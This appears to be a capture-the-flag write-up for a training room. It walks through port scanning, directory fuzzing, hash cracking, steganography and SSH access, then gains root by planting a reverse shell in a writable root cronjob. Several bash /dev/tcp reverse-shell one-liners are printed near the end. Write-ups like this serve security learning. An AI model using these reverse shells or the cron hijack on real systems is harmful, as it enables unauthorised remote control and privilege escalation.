

!!! danger "Important Notice"
	To keep it spoiler-free, all important information to solve the ctf 	is either pixelated or encoded with ROT-13. 

## Overview

The room starts with a rather easy nmap and directory enumeration. I've chosen `ffuf` instead of `gobuster` because `ffuf` has the ability to check all subfolders, up to a defined depth, automatically. There are a nginx server on a standard port `80` and another apache webserver on a non-standard port, as well as an ssh server on a non-standard port. After identifying all the folders on both web servers, all the `robots.txt`and and `index.html` files are checked, source included and some encoded strings are found. One of the string is a sha256-like hash but it's not really `sha256`. After finding the correct cryptographic function it reveals a secret folder. In the secret folder a picture inside a picture is found and with some `steganography tools` and a password we cracked earlier, an username and a binary representation of a string is found. Converting the binary string we get the password and we can log in via ssh as that user. We get the user flag and with the hint we convert the `rotated` string to the correct flag. Using `linpeas.sh` we find a cronjob running as root. Editing the file the cronjob runs and adding a reverse shell, we get `root` and finally the root flag. 


## Information Gathering

### nmap

=== "Quick open port scan"

    ```bash
    └─# nmap -p- 10.10.24.106
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 19:11 CET
    Nmap scan report for 10.10.24.106
    Host is up (0.053s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT      STATE SERVICE
    80/tcp    open  http
    6498/tcp  open  unknown
    65524/tcp open  unknown
    ```


=== "Extensive Version And Script Scan On Selected Ports"

    ```bash hl_lines="7 12 17"
    └─# nmap -sC -sV 10.10.24.106 -p80,6498,65524
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 19:14 CET
    Nmap scan report for 10.10.24.106
    Host is up (0.044s latency).
    
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    nginx 1.16.1
    |_http-title: Welcome to nginx!
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: nginx/1.16.1
    6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
    |   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
    |_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
    65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
    |_http-server-header: Apache/2.4.43 (Ubuntu)
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-title: Apache2 Debian Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 13.74 seconds
    ```

### ffuf

=== "Port 80"

    ```bash hl_lines="32 39 57"
    └─# ffuf -u http://10.10.24.106/FUZZ -w /home/bonzo/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -recursion -recursion-depth 5 -c -fc 403 -v -e .txt,.html -o enumeration/port80
    
            /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
            \ \_\   \ \_\  \ \____/  \ \_\
            \/_/    \/_/   \/___/    \/_/
    
        v1.3.1 Kali Exclusive <3
    ________________________________________________
    
    :: Method           : GET
    :: URL              : http://10.10.24.106/FUZZ
    :: Wordlist         : FUZZ: /home/bonzo/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
    :: Extensions       : .txt .html
    :: Output file      : enumeration/port80
    :: File format      : json
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403,405
    :: Filter           : Response status: 403
    ________________________________________________
    
    [Status: 200, Size: 612, Words: 79, Lines: 26]
    | URL | http://10.10.24.106/index.html
        * FUZZ: index.html
    
    [Status: 301, Size: 169, Words: 5, Lines: 8]
    | URL | http://10.10.24.106/hidden
    | --> | http://10.10.24.106/hidden/
        * FUZZ: hidden
    
    [INFO] Adding a new job to the queue: http://10.10.24.106/hidden/FUZZ
    
    [Status: 200, Size: 43, Words: 3, Lines: 4]
    | URL | http://10.10.24.106/robots.txt
        * FUZZ: robots.txt
    
    [Status: 200, Size: 612, Words: 79, Lines: 26]
    | URL | http://10.10.24.106/
        * FUZZ:
    
    [INFO] Starting queued job on target: http://10.10.24.106/hidden/FUZZ
    
    [Status: 200, Size: 390, Words: 47, Lines: 19]
    | URL | http://10.10.24.106/hidden/index.html
        * FUZZ: index.html
    
    [Status: 200, Size: 390, Words: 47, Lines: 19]
    | URL | http://10.10.24.106/hidden/
        * FUZZ:
    
    [Status: 301, Size: 169, Words: 5, Lines: 8]
    | URL | http://10.10.24.106/hidden/whatever
    | --> | http://10.10.24.106/hidden/whatever/
        * FUZZ: whatever
    
    [INFO] Adding a new job to the queue: http://10.10.24.106/hidden/whatever/FUZZ
    
    [INFO] Starting queued job on target: http://10.10.24.106/hidden/whatever/FUZZ
    
    [Status: 200, Size: 435, Words: 47, Lines: 22]
    | URL | http://10.10.24.106/hidden/whatever/index.html
        * FUZZ: index.html
    
    [Status: 200, Size: 435, Words: 47, Lines: 22]
    | URL | http://10.10.24.106/hidden/whatever/
        * FUZZ:
    
    :: Progress: [79752/79752] :: Job [3/3] :: 762 req/sec :: Duration: [0:01:34] :: Errors: 18 ::
    ```


=== "Port 65524"

    ```bash hl_lines="32"
    └─# ffuf -u http://10.10.24.106:65524/FUZZ -w /home/bonzo/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -recursion -recursion-depth 5 -c -fc 403 -v -e .txt,.html -o enumeration/port65524 -of all                           1 ⨯
    
            /'___\  /'___\           /'___\
        /\ \__/ /\ \__/  __  __  /\ \__/
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
            \ \_\   \ \_\  \ \____/  \ \_\
            \/_/    \/_/   \/___/    \/_/
    
        v1.3.1 Kali Exclusive <3
    ________________________________________________
    
    :: Method           : GET
    :: URL              : http://10.10.24.106:65524/FUZZ
    :: Wordlist         : FUZZ: /home/bonzo/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
    :: Extensions       : .txt .html
    :: Output file      : enumeration/port65524.{json,ejson,html,md,csv,ecsv}
    :: File format      : all
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403,405
    :: Filter           : Response status: 403
    ________________________________________________
    
    [Status: 200, Size: 10818, Words: 3441, Lines: 371]
    | URL | http://10.10.24.106:65524/index.html
        * FUZZ: index.html
    
    [Status: 200, Size: 153, Words: 13, Lines: 7]
    | URL | http://10.10.24.106:65524/robots.txt
        * FUZZ: robots.txt
    
    [Status: 200, Size: 10818, Words: 3441, Lines: 371]
    | URL | http://10.10.24.106:65524/
        * FUZZ:
    
    :: Progress: [79752/79752] :: Job [1/1] :: 882 req/sec :: Duration: [0:01:33] :: Errors: 6 ::
    ```


### Web Walking

#### Port 80

**HTML source of  `index.html` in folder `/hidden/whatever`**

```html hl_lines="18"
<!DOCTYPE html>
<html>
<head>
<title>dead end</title>
<style>
    body {
	background-image: url("https://cdn.pixabay.com/photo/2015/05/18/23/53/norway-772991_960_720.jpg");
	background-repeat: no-repeat;
	background-size: cover;
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<center>
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
</center>
</body>
</html>
```


#### Port 65524

=== "robots.txt"

    ``` hl_lines="4"
    User-Agent:*
    Disallow:/
    Robots Not Allowed
    User-Agent:a18672860d0510e5ab6699730763b250
    Allow:/
    This Flag Can Enter But Only This Flag No More Exceptions
    ```


=== "index.html (line 194)"

    ```html hl_lines="6"
    	<div class="main_page">
          <div class="page_header floating_element">
            
            <span class="floating_element">
              Apache 2 It Works For Me
        		<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
            </span>
          </div>
    ```


=== "index.html (line 294)"
    ```html hl_lines="4"
    <li>
        They are activated by symlinking available
        configuration files from their respective
        Fl4g 3 : flag{9fdafbd64c47471a8f54cd3fc64cd312}
        *-available/ counterparts. These should be managed
        by using our helpers
            <tt>
    ```


#### index.html in folder /n0th1ng3ls3m4tt3r

```html hl_lines="13 14"
<html>
<head>
<title>random title</title>
<style>
	body {
	background-image: url("https://cdn.pixabay.com/photo/2018/01/26/21/20/matrix-3109795_960_720.jpg");
	background-color:black;
	}
</style>
</head>
<body>
<center>

<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
</center>
</body>
</html>
```


## Exploitation

### Webserver `nginx` on port 80
In the HTML source of  `index.html` in the folder `/hidden/whatever` on port 80 we find a [base64](https://www.hannesholst.com/blog/how-to-identify-a-base64-encoded-string/) encoded string. 

We can easily decode it in the terminal and get the first flag:
```echo MzkuM3gzZKWmA19zoQEasD== | base64 -d``` 

Result: ```synt{s1ef7_sy4t}```

### Webserver `apache` on port 65524
#### `robots.txt` in root folder
The string in the `robots.txt` is probably a [md5](https://infosecscout.com/identify-md5-hash/) hash. It has hexadecimal characters and is 32 characters long

```bash
srv001:/home/bonzo # echo -n n18672860q0510r5no6699730763o250 | wc -c 32
```
We can also check it with the tool `hash-identifier`:

```
┌──(root💀kali)-[~/ctf/thm/easypeasy]
└─# hash-identifier n18672860q0510r5no6699730763o250  
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
Trying to crack it with the downloadable `easypeasy.txt` isn't succesfull so we have to try and hope an online tool has the hash in it's database. 
Another way could be to simply paste the string in the google searchbar but that would result in write-ups as well and we don't want that for now. So we search google with `decrypt md5 hash`

The third entry is able to decrypt the hash.

[https://md5hashing.net](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250) gives us the second flag`synt{1z_f3p0aq_sy4t}`

#### flag in `index.html` in root folder
The `index.html` is seemingly a default apache page but with two entries that are not included in a standard default apache page.
The first entry is flag3 and we can find it in clear sight on the page.
The second entry is hidden in the source code:
`its encoded with ba....:BofWzC173A2K6qBeNtRNY0Ih` 
The hiny is that it's encoded in "ba". It could be some base64 or similar encoding. The easiest way to check that out is with [cyberchef](https://gchq.github.io/CyberChef/).
We try `base64` but the output makes no sense. So we try the other base(n) encodings until we get an output that makes sense, in this case `base62`



The result looks like a folder and adding it to the `IP:PORT` in the browser we can confirm it's a new, hidden folder 

#### string in index.html in folder /n0th1ng3ls3m4tt3r

In the source of index.html in the newly discovered folder `/n0th1ng3ls3m4tt3r` we find the string `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`

`hash-identifier` says it's probably `sha256`

```
--------------------------------------------------
 HASH: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Possible Hashs:
[+] SHA-256
[+] Haval-256
```

But `hash-identifier` was wrong here. It's GOST, a Russian cryptography function

[GOST(hash function)](https://en.wikipedia.org/wiki/GOST)


If we use the homepage we cracked the md5 before, we get the result and the correct identification

https://md5hashing.net/hash/gost/940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

the decrypted result is `mypasswordforthatjob`

We could have used the hint as well and crack it with the format `gost`

```
└─# john --wordlist=easy.txt --format=gost hash.txt                                                                                                                                                                                                       1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (gost, GOST R 34.11-94 [64/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mypasswordforthatjob (?)     
1g 0:00:00:00 DONE (2021-11-30 20:34) 33.33g/s 136533p/s 136533c/s 136533C/s mypasswordforthatjob..flash88
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Or, now that we now the function, `gost`, we can use hashcat as well

```
┌──(root💀kali)-[~/ctf/thm/easypeasy]
└─# hashcat -a 0 -m 6900 -O hash.txt easy.txt                                                                                                                                                                                                           130 ⨯

hashcat (v6.1.1) starting...

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 9.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: pthread-AMD Ryzen 5 2600 Six-Core Processor, 2883/2947 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 32

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: easy.txt
* Passwords.: 5140
* Bytes.....: 43708
* Keyspace..: 5140

940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81:mypasswordforthatjob
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: GOST R 34.11-94
Hash.Target......: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d14...e6fd81
Time.Started.....: Tue Nov 30 20:48:46 2021 (0 secs)
Time.Estimated...: Tue Nov 30 20:48:46 2021 (0 secs)
Guess.Base.......: File (easy.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   147.0 kH/s (6.44ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4097/5140 (79.71%)
Rejected.........: 1/4097 (0.02%)
Restore.Point....: 3072/5140 (59.77%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: vgazoom4x -> flash72

Started: Tue Nov 30 20:45:57 2021
Stopped: Tue Nov 30 20:48:47 2021
```


Now we have a password, but still no username. We try root as the only know user but no way in. 

Since the room has a tag that says steganography, let's try steghide

After trying steghide on the picture `matrix-3109795_960_720.jpg` I've downloaded from the css portion of the page and after I went over the `index.html` again, I realized there is a picture in the picture and maybe I was trying to crack the wrong picture. After an hour of trying `steghide` and `stegcracker` and compiling the new, ultra fast `stegseek` (recommendation) , everything went smoothly with the right picture `binarycodepixabay.jpg`

The password is the decoded `gost` hash `mypasswordforthatjob`. You can crack the password with the `easypeasy.txt` and the ultra fast (whole rockyou.txt in 4-5 seconds) `stegseek` password list as well

```
└─# stegseek binarycodepixabay.jpg easy.txt                                                                                                                                                                                                               1 ⨯
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "mypasswordforthatjob"
[i] Original filename: "secrettext.txt".
[i] Extracting to "binarycodepixabay.jpg.out".
```

The output of `binarycodepixabay.jpg.out`

```
┌──(root💀kali)-[~/ctf/thm/easypeasy]
└─# cat binarycodepixabay.jpg.out                                                                                                                                                                                                                       255 ⨯
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```


It's obvious it's binary, with cyberchef it should be easy to get it decoded


With the username `boring` and the password `iconvertedmypasswordtobinary` and not forgetting the non-standard port ssh is using, we can log in.

```
└─# ssh boring@10.10.42.67 -p 6498                                                                                                                                                                                                                      255 ⨯
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.42.67's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
```


```
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

Some rotating is mentioned so first think to think about is some kind of `caesar cipher` or `rot13`

Using cyberchef again we get the flag


After we have the user flag we can look at `privilege escalation`. `sudo -l` `crontab -l` give us nothing so let's try with `linpeas.sh`

On the attacker machine we go to a folder with `linpeas.sh` in it and in that folder we start a simple http server with`python` or `php`.

```
bonzo@srv001:/opt/share/scripts/linpeas> python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On the victim machine we go to a folder that's writable (`/temp`) and get the leanpeas.sh with `wget` from the attacker machine and make it executable.

Finally, we start `linpeas`.

```
boring@kral4-PC:/tmp$ wget 10.14.12.247:8000/linpeas.sh
--2021-11-30 13:55:44--  http://10.14.12.247:8000/linpeas.sh
Connecting to 10.14.12.247:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 633658 (619K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                      100%[=====================================================================================================================================================>] 618.81K  1.04MB/s    in 0.6s    

2021-11-30 13:55:45 (1.04 MB/s) - ‘linpeas.sh’ saved [633658/633658]

boring@kral4-PC:/tmp$ chmod +x linpeas.sh 
boring@kral4-PC:/tmp$ ./linpeas.sh
```

Running `linpeas` we see there is an `anacron` cronjob running a shell script as root every minute. The shell script is in `/var/www/.mysecretcronjob.sh`

```
var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Jun 13  2020 .
drwxr-xr-x 6 root root 4096 Apr 26  2018 ..
-rw------- 1 root root    9 Nov 30 12:24 cron.daily
-rw------- 1 root root    9 Nov 30 12:34 cron.monthly
-rw------- 1 root root    9 Nov 30 12:29 cron.weekly

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh


SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

1       5       cron.daily      run-parts --report /etc/cron.daily
7       10      cron.weekly     run-parts --report /etc/cron.weekly
@monthly        15      cron.monthly    run-parts --report /etc/cron.monthly

```

Changing to that folder and checking the files with `ls -al` we see that the user `boring` (we) has full read/write. That means we can change the contents of the file and create a reverse shell. Since the user that runs the shell script through `anacron` is `root` we'll get a root shell.

The initial content of `.mysecretcronjob.sh`

```
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
boring@kral4-PC:/var/www$ 
```

We can look for reverse shell at https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

We try a `bash` reverse shell first because it's  a stable shell and it very often works. If it won't work I usually try a netcat shell. That one always worked for me.

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```


First bash reverse shell was unstable, second was stable but only a simple shell. We can get the root flag anyway. The machine had `python3` installed so I could span a bash shell so I could see more. Changing the folder to `/root/` and listing the files, I found the `.root.txt` (the `.`means it is hidden so you need the `-l` option to show all files)


```
/bin/bash -l > /dev/tcp/10.14.12.247/1234 0<&1 2>&1
```


```bash
└─$ nc -nvlp 1234                                                                                                                                                                                                                                                                                                        1 ⨯
listening on [any] 1234 ...
connect to [10.14.12.247] from (UNKNOWN) [10.10.208.230] 51916
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Nov 30 14:45 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
root@kral4-PC:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@kral4-PC:~# 
```

